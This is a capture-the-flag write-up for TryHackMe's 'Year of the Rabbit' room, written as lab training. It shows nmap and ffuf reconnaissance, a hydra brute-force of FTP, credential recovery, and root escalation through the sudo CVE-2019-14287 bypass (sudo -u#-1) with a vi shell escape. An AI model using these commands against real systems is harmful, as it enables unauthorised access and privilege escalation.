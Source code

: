 ```bash
# PLATFORM          . THM
# CTF NAME          . Year of the Rabbit
# DESCRIPTION       . Time to enter the warren...
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/yearoftherabbit
```

```
sudo nmap -sSVC -T5 10.10.130.97 -p- -oN year
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 a08b6b7809390332ea524c203e82ad60 (DSA)
|   2048 df25d0471f37d918818738763092651f (RSA)
|   256 be9f4f014a44c8adf503cb00ac8f4944 (ECDSA)
|_  256 dbb1c1b9cd8c9d604ff198e299fe0803 (ED25519)

80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.10 (Debian)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

- There's nothing much I could do with this information, so I fuzzed the webserver using `ffuf`.

```
ffuf -u http://10.10.130.97/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100
```

```
assets                  [Status: 301, Size: 313, Words: 20, Lines: 10]
```

- Inside `/assets`, we have `RickRolled.mp4` and a `.css` file.

- The CSS file reveals the next step of the challenge

```
Nice to see someone checking the stylesheets.
Take a look at the page: /sup3r_s3cr3t_fl4g.php
```

- If we navigate to `ip/sup3r_s3cr3t_fl4g.php`, we get the following message: `Word of advice... Turn off your javascript...` and then we're redirected to the next [hint](https://www.youtube.com/watch?v=dQw4w9WgXcQ).

- I didn't wanted to bother turning off JS on my browser just yet. I tried intercepting the request in Burp Suite, and, if we capture the response, there is an additional link between `sup3r_s3cr3t_fl4g.php` and the final redirect.

```
GET /intermediary.php?hidden_directory=/WExYY2Cv-qU HTTP/1.1
```

- Here, we can find a image called `Hot_Babe.png` 

- I had no other hints or directions so I assumed this is involves steganography, so I've downloaded the file.

- A simple `strings` reveals some useful information

```
Eh, you've earned this. Username for FTP is ftpuser
One of these is the password:
Mou+56n%QK8sr
1618B0AUshw1M
A56IpIl%1s02u
vTFbDzX9&Nmu?
FfF~sfu^UQZmT
8FF?iKO27b~V0
ua4W~2-@y7dE$
3j39aMQQ7xFXT
Wb4--CTc4ww*-
u6oY9?nHv84D&
0iBp4W69Gr_Yf
TS*%miyPsGV54
C77O3FIy0c0sd
O14xEhgg0Hxz1
5dpv#Pr$wqH7F
1G8Ucoce1+gS5
0plnI%f0~Jw71
0kLoLzfhqq8u&
kS9pn5yiFGj6d
zeff4#!b5Ib_n
rNT4E4SHDGBkl
KKH5zy23+S0@B
3r6PHtM4NzJjE
gm0!!EC1A0I2?
HPHr!j00RaDEi
7N+J9BYSp4uaY
PYKt-ebvtmWoC
3TN%cD_E6zm*s
eo?@c!ly3&=0Z
nR8&FXz$ZPelN
eE4Mu53UkKHx#
86?004F9!o49d
SNGY0JjA5@0EE
trm64++JZ7R6E
3zJuGL~8KmiK^
CR-ItthsH%9du
yP9kft386bB8G
A-*eE3L@!4W5o
GoM^$82l&GA5D
1t$4$g$I+V_BH
0XxpTd90Vt8OL
j0CN?Z#8Bp69_
G#h~9@5E5QA5l
DRWNM7auXF7@j
Fw!if_=kk7Oqz
92d5r$uyw!vaE
c-AA7a2u!W2*?
zy8z3kBi#2e36
J5%2Hn+7I6QLt
gL$2fmgnq8vI*
Etb?i?Kj4R=QM
7CabD7kwY7=ri
4uaIRX~-cY6K4
kY1oxscv4EB2d
k32?3^x1ex7#o
ep4IPQ_=ku@V8
tQxFJ909rd1y2
5L6kpPR5E2Msn
65NX66Wv~oFP2
LRAQ@zcBphn!1
V4bt3*58Z32Xe
ki^t!+uqB?DyI
5iez1wGXKfPKQ
nJ90XzX&AnF5v
7EiMd5!r%=18c
wYyx6Eq-T^9#@
yT2o$2exo~UdW
ZuI-8!JyI6iRS
PTKM6RsLWZ1&^
3O$oC~%XUlRO@
KW3fjzWpUGHSW
nTzl5f=9eS&*W
WS9x0ZF=x1%8z
Sr4*E4NT5fOhS
hLR3xQV*gHYuC
4P3QgF5kflszS
NIZ2D%d58*v@R
0rJ7p%6Axm05K
94rU30Zx45z5c
Vi^Qf+u%0*q_S
1Fvdp&bNl3#&l
zLH%Ot0Bw&c%9
```

- Let's find out which one it is

```
hydra -l ftpuser 10.10.130.97 -P passwords ftp -t 64 -I
```

- On the FTP server we find `Eli's Creds.txt` which is in brainfuck

```
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <
```

```
User: eli
Password: DSpDiM1wAEwid
```

- After sshing to the box, we see the following mail:

```
Message from Root to Gwendoline:

"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"

END MESSAGE
```

- The path can be revealed using `find / -name s3cr3t 2>/dev/null`

```
ls -la

.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
```

```
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
```

- So we got the password for gwendoline.. great ... security :) 

- The first flag is in `/home/gwendoline/user.txt`.

```
User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

- This can be bypassed using [this](https://nvd.nist.gov/vuln/detail/CVE-2019-14287) vulnerability.

```
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

- After the vi opened the file, press `esc` and write `:!/bin/sh`.

- The last flag is in `/root/root.txt`